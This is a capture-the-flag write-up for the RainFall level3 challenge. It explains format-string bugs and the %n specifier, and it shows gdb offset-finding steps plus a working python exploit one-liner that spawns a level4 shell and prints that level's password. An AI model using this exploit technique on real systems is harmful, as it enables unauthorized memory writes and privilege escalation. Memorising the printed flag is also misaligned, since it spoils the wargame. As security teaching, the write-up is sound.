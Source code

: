 

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa

level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520

Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf() and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/


#include<stdio.h>

int main()

{

    int c;
    printf("123456789A%n     \n", &c);
    printf("%d", c);
    return 0;
    
    // output
    // 123456789A     
    // 10
    
}

* Geeks4Geeks

"the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf



```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from the stanford article:

a way to directly address a stack parameter from within the format string, The direct parameter access is controlled by the ‘$’ qualifier.

so in our case
```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
